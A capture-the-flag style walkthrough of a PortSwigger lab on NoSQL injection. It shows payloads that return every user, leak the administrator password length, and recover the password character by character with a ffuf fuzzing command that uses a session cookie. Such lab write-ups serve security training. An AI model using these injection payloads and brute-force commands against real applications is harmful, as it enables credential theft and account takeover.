 # Exploiting NoSQL injection to extract data

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a `My account` page that redirects to `login` page if a user is not logged in.

After logging in to the application with the given credentials, the network tab reveals an interesting URL. The application looks for a user with a given username (`/user/lookup?user=wiener`).

Let's append an apostrophe (`'`) at the end of the user parameter. Surprisingly, the application returned a message saying, "**There was an error getting user details.**".

```json
{
  "message": "There was an error getting user details"
}
```

Maybe our apostrophe (`'`) breaks the query syntax. Now let's inject a JavaScript condition that always evaluates to true, such as `'||'0'=='0`. And observe how response changes. Hmm, we were able to get an administrator user. This is probably because the query is returning all users, and the first user, the administrator user is being returned.

![Administrator User](img/user-lookup.png)

Now, let's examine if the database evaluates the JavaScript as part of the query. If it does then let's try to get the length of the password of the administrator user.

*After trying a bunch of queries we finally got the password length:*

```bash
/user/lookup?user=administrator'%26%26this.password.length=='8
```

![Password Length](img/password-length.png)

**Now, deduce the administrator password character by character. I am going to use ffuf because, Burp (community edition) intruder tab is very slow.**

```bash
wget https://gist.githubusercontent.com/blueorionn/624bac9a6a69d96244c33ddbe8739e7b/raw/a073b656fe66203b172202fa1c6b36987761dc3e/alpha-numeric-characters.txt
```

```bash
ffuf -u "https://YOUR-LAB-ID.web-security-academy.net/user/lookup?user=administrator'%26%26this.password[INDEX]=='FUZZ" -w "alpha-numeric-characters.txt" -H "Cookie: session=YOUR_SESSION_KEY"
```

**Fill "YOUR-LAB-ID" with your lab ID, "INDEX" with the current length of password you want to get, and "YOUR_SESSION_KEY" with your session cookie.**

![Fuzzed](img/ffuf.png)

You will see a response like this, one of the values will have a different or abnormal response, double check that value on burp, if the request returns the administrator JSON response then it is valid.

After getting the password, log in as an administrator user to solve this lab.

![Lab Solved](img/lab-solved.png)
